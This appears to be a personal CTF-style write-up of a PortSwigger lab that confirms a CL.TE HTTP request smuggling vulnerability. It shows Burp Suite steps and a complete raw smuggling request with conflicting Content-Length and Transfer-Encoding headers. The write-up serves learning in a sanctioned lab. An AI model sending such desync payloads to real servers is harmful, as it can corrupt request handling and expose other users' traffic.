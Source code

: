 # HTTP request smuggling, confirming a CL.TE vulnerability via differential responses | Jan 28, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses), you'll learn: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a 404 Not Found response.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-4/images/Pasted%20image%2020230128183613.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-4/images/Pasted%20image%2020230128183618.png)

We can send this request to Burp Suite Repeater to test HTTP request smuggling.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-4/images/Pasted%20image%2020230128183651.png)

Then change the request method to POST:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-4/images/Pasted%20image%2020230128183714.png)

Now, we want to confirm the web application is vulnerable to CL.TE HTTP request smuggling (Front-end uses `Content-Length` header, back-end uses `Transfer-Encoding` header).

**To do so, we can first send an attack request:**
```http
POST / HTTP/1.1
Host: 0a3b0080037a1918c3ed3938006c0073.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Foo: x
```

This request will:

- The front-end server handles the `Content-Length` header
- The back-end server handles the `Transfer-Encoding` header, which means the `GET /404 HTTP/1.1\r\nX-Foo: x` will be smuggled to the back-end

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-4/images/Pasted%20image%2020230128184343.png)

**Then, we send a normal request:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-4/images/Pasted%20image%2020230128184535.png)

Nice! We successfully smuggled our 404 request! Now we can confirm it's vulnerable to CL.TE HTTP request smuggling.

# What we've learned:

1. HTTP request smuggling, confirming a CL.TE vulnerability via differential responses